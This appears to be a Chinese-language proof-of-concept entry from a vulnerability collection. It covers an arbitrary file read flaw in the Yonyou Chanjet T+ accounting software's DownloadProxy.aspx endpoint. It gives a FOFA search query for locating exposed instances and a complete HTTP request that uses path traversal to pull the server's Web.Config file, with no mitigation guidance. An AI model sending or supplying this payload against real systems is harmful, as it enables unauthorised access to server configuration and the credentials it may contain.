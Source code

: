 ## 用友畅捷通TPlus-DownloadProxy.aspx任意文件读取漏洞

## fofa
```
app="畅捷通-TPlus"
```


## poc
```
GET /tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config HTTP/1.1
X-Ajaxpro-Method: GetStoreWarehouseByStore
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![cb01e991a8d9d86820031fd9d3e58e10](../../images/b9b44980-b4e0-45d4-9317-790954318e04.png)
